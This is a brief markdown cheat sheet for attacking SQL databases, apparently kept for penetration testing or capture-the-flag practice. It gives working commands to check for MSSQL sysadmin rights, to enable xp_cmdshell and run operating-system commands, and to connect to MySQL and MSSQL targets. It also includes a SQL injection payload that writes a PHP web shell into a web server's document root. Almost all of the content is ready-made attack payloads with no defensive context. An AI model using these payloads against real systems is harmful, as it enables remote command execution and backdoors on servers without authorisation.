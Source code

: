 # SQL Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

#### Determine if Current User is Sysadmin

`select is_srvrolemember('sysadmin')`

<!--
##################################################################
##################################################################
-->

#### Spawn Command Shell once Sysadmin

`EXEC sp_configure 'Show Advanced Options', 1;`
'reconfigure;'
`sp_configure;`
`EXEC sp_configure 'xp_cmdshell', 1`
`reconfigure;`
`xp_cmdshell "whoami"`

<!--
##################################################################
##################################################################
-->

#### Inject Web Shell

`' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php' -- -' `

<!--
##################################################################
##################################################################
-->

## MYSQL

#### Connecting to MYSQL

`mysql -h targetIP:port -u USERNAME`

<!--
##################################################################
##################################################################
-->

## MSSQL

#### Connecting to MSSQL

`sqsh -S targetIP:port -U username -P password`

#### Running System Commands if code execution is enabled

`xp_cmdshell "command"`
`go`
